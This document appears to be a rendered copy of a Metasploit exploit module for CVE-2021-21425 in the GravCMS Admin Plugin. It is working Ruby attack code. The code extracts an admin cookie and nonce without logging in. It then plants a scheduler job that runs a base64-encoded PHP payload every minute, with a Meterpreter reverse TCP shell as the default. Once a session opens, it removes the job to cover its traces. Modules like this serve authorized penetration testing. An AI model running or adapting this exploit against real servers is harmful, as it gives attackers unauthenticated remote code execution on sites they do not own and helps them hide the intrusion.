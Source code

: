 EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = NormalRanking

      include Msf::Exploit::Remote::HttpClient

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'GravCMS Remote Command Execution',
            'Description' => %q{
              This module exploits arbitrary config write/update vulnerability to achieve remote code execution.
              Unauthenticated users can execute a terminal command under the context of the web server user.

              Grav Admin Plugin is an HTML user interface that provides a way to configure Grav and create and modify pages.
              In versions 1.10.7 and earlier, an unauthenticated user can execute some methods of administrator controller without
              needing any credentials. Particular method execution will result in arbitrary YAML file creation or content change of
              existing YAML files on the system. Successfully exploitation of that vulnerability results in configuration changes,
              such as general site information change, custom scheduler job definition, etc. Due to the nature of the vulnerability,
              an adversary can change some part of the webpage, or hijack an administrator account, or execute operating system command
              under the context of the web-server user.
            },
            'License' => MSF_LICENSE,
            'Author' =>
              [
                'Mehmet Ince <mehmet@mehmetince.net>' # author & msf module
              ],
            'References' =>
              [
                ['CVE', '2021-21425'],
                ['URL', 'https://pentest.blog/unexpected-journey-7-gravcms-unauthenticated-arbitrary-yaml-write-update-leads-to-code-execution/']
              ],
            'Privileged' => true,
            'Platform' => ['php'],
            'Arch' => ARCH_PHP,
            'DefaultOptions' =>
              {
                'payload' => 'php/meterpreter/reverse_tcp',
                'Encoder' => 'php/base64',
                'WfsDelay' => 90
              },
            'Targets' => [ ['Automatic', {}] ],
            'DisclosureDate' => '2021-03-29',
            'DefaultTarget' => 0,
            'Notes' => {
              'Stability' => [CRASH_SAFE],
              'Reliability' => [REPEATABLE_SESSION],
              'SideEffects' => [
                CONFIG_CHANGES # user/config/scheduler.yaml
              ]
            }
          )
        )

      end

      def check
        # During the fix, developers changed admin-nonce to login-nonce.

        res = send_request_cgi(
          'method' => 'GET',
          'uri' => normalize_uri(target_uri.path, 'admin')
        )

        if res && !res.get_hidden_inputs.first['admin-nonce'].nil?
          CheckCode::Appears
        else
          CheckCode::Safe
        end
      end

      def capture_cookie_token
        print_status 'Sending request to the admin path to generate cookie and token'
        res = send_request_cgi(
          'method' => 'GET',
          'uri' => normalize_uri(target_uri.path, 'admin')
        )

        # Cookie must contain grav-site-az09-admin and admin-nonce form field must contain value
        if res && res.get_cookies =~ /grav-site-[a-z0-9]+-admin=(\S*);/ && !res.get_hidden_inputs.first['admin-nonce'].nil?
          print_good 'Cookie and CSRF token successfully extracted !'
        else
          fail_with Failure::UnexpectedReply, 'The server sent a response, but cookie and token was not found.'
        end

        @cookie = res.get_cookies
        @admin_nonce = res.get_hidden_inputs.first['admin-nonce']

      end

      def exploit

        unless check == CheckCode::Appears
          fail_with Failure::NotVulnerable, 'Target is not vulnerable.'
        end

        capture_cookie_token

        @task_name = Rex::Text.rand_text_alpha_lower(5)

        # Msf PHP payload does not contain quotes for many good reasons. But a single quote will surround PHP binary's
        # parameter due to the command execution library of the GravCMS. For that reason, surrounding base64 part of the
        # payload with a double quote is necessary to command executed successfully.

        payload.encoded.sub! 'base64_decode(', 'base64_decode("'
        payload.encoded.sub! '));', '"));'

        print_status 'Implanting payload via scheduler feature'

        res = send_request_cgi(
          'method' => 'POST',
          'uri' => normalize_uri(target_uri.path, 'admin', 'config', 'scheduler'),
          'cookie' => @cookie,
          'vars_post' => {
            'admin-nonce' => @admin_nonce,
            'task' => 'SaveDefault',
            "data[custom_jobs][#{@task_name}][command]" => '/usr/bin/php',
            "data[custom_jobs][#{@task_name}][args]" => "-r #{payload.encoded}",
            "data[custom_jobs][#{@task_name}][at]" => '* * * * *',
            "data[custom_jobs][#{@task_name}][output]" => '',
            "data[status][#{@task_name}]" => 'enabled',
            "data[custom_jobs][#{@task_name}][output_mode]" => 'append'
          }
        )

        if res && res.code == 200 && res.body.include?('Successfully saved')
          print_good 'Scheduler successfully created ! Wait for 1 minute...'
        end

      end

      def on_new_session
        print_status 'Cleaning up the the scheduler...'

        # Thanks to the YAML update method, we can remove the command details from the config file just by re-enabling
        # the scheduler without any parameter:) It will leave the only command name in the config file.

        res = send_request_cgi(
          'method' => 'POST',
          'uri' => normalize_uri(target_uri.path, 'admin', 'config', 'scheduler'),
          'cookie' => @cookie,
          'vars_post' => {
            'admin-nonce' => @admin_nonce,
            'task' => 'SaveDefault',
            "data[status][#{@task_name}]" => 'enabled'
          }
        )

        if res && res.code == 200 && res.body.include?('Successfully saved')
          print_good 'The scheduler config successfully cleaned up!'
        end

      end

    end
